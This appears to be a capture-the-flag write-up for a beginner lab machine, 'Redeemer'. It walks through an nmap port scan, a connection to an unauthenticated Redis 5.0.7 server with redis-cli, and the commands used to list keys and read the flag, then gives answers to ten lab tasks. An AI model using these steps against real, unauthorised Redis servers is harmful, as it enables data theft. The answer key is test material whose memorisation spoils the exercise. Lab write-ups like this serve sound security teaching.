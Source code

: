 # Redeemer      

![logo](./Screenshots/redemeerlogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -p- -sV -T4 {target ip} -v
```

![nmap](./Screenshots/redeemernmap.png)

Port 6379/tcp is open. Service is `redis` and its version is `Redis key-value store 5.0.7`.

### Redis

If you want to search for a specific functionality, type `redis-cli -h`.

We are going to use `-h` flag.

Type:

```
redis-cli -h {target ip}
```

![redis](./Screenshots/redeemerredis.png)

When you are in, type `info` for more informations.

![redis](./Screenshots/redeemerredis2.png)

![redis](./Screenshots/redeemerredis3.png)

### Get the flag

There is one database. Let's select it.

```
select 0
```
When database is selected, we can list all the keys present in it by typing:

```
keys *
```

Then we go with:

```
get flag
```

![get](./Screenshots/redeemerredis4.png)

Here comes the flag.

### Paste the flag

![pwned](./Screenshots/redeemerpwned.png)

## Answers

### Task-1: Which TCP port is open on the machine?

6379

### Task-2: Which service is running on the port that is open on the machine?

redis

### Task-3: What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database

In-memory Database

### Task-4: Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.

redis-cli

### Task-5: Which flag is used with the Redis command-line utility to specify the hostname?

-h 

### Task-6: Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?

info 

### Task-7: What is the version of the Redis server being used on the target machine?

5.0.7

### Task-8: Which command is used to select the desired database in Redis?

select

### Task-9: How many keys are present inside the database with index 0?

4

### Task-10: Which command is used to obtain all the keys in a database?

keys *

### Submit root flag

Good job!